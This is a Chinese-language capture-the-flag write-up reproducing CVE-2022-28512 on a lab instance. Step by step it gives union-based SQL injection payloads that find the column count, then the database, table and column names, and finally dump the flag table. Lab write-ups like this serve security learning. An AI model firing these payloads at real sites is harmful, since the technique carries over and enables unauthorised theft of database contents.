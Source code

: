 ```yaml
---
title: CVE-2022-28512
subtitle:
date: 2025-03-14T12:31:43+08:00
slug: 2d91a81
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/05fc58e4d286d3c2c23eb706b30ff1a2.png)
发现并没有什么可用的，看到题目提示，直接访问

```
http://eci-2ze1snkmg1wia23zk99t.cloudeci1.ichunqiu.com/single.php
```



![](images/e11222ab8431fbb5c43b5b0193854d13.png)

| 1                                                            | 判断注入点   |
| ------------------------------------------------------------ | ------------ |
| 2                                                            | 爆字段个数   |
| 3                                                            | 爆显位位置   |
| 4                                                            | 爆数据库名   |
| 5                                                            | 爆数据库表名 |
| 6                                                            | 爆数据库列名 |
| 7                                                            | 爆数据库数据 |
| 用1=1和and 1=2测试，发现页面正常，排除数字型。测试到3'发现报错 |              |
| ![](images/82e637b055cc8953041960d1bedb2394.png)             |              |
| 根据报错信息可知，单引号闭合，构造playload                   |              |

```
id=3'--+
```

首先爆字段个数，注入语句，发现到10时报错，显示位数为9

```
id=3' order by 9--+
```



![](images/dca74f1d7bdda5cb1757b2f136091db5.png)


爆显位位置，注入语句为

```
id=-3' union select 1,2,3,4,5,6,7,8,9--+
```



![](images/cbc0db57a21de3ecd37f9245fbffa5af.png)
4可以注入，语句

```
id=-3' union select 1,2,3,database(),5,6,7,8,9--+
```



![](images/c487dc06770823d4581c85af07d07deb.png)
发现数据库名称为ctf，接下来爆破库表名

```
id=-3' union select 1,2,3,group_concat(table_name),5,6,7,8,9 from information_schema.tables where table_schema=database()--+
```



![](images/89c660d1c9aa6d8a001c66488f45d31e.png)
得到数据库表名

```
titles,page_hits,membership_userpermissions,membership_groups,blog_categories,membership_userrecords,membership_users,editors_choice,blogs,links,flag,banner_posts,membership_grouppermissions,visitor_info
```

关键词为flag，爆破列名，注入语句为

```
id=-3' union select 1,2,3,group_concat(column_name),5,6,7,8,9 from information_schema.columns where table_schema=database() and table_name="flag"--+
```



![](images/f05a9102e6bac84d5df3cb913a4e6833.png)
爆破数据库数据，注入语句为

```
id=-3' union select 1,2,3,group_concat(flag),5,6,7,8,9 from flag --+
```



![](images/b7b20b166cfe751b021eec72a47d47a8.png)
